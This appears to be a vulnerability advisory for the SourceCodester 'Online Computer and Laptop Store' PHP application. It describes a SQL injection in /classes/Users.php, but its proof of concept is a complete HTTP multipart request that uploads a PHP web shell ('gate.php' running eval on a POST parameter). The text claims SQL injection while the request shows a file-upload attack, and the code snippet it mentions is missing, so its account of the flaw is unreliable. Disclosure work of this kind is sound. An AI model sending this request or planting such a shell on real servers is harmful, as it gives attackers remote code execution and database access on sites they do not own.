


Online Computer and Laptop Store using an SQL injection vulnerability can be exploited by an attacker to steal information or compromise a database without authentication.


Source code address：https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html


The vulnerability is located in the /classes/Users.php file, and the behavior of concatenating SQL statements with parameters can be seen in the code snippet.




Vulnerability verification：

```
POST /php-ocls/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
Content-Length: 719
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhRN9PALikUI2sZ8x
Origin: http://192.168.80.152
Referer: http://192.168.80.152/php-ocls/admin/?page=user
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="img"; filename="gate.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

------WebKitFormBoundaryhRN9PALikUI2sZ8x--

```

 


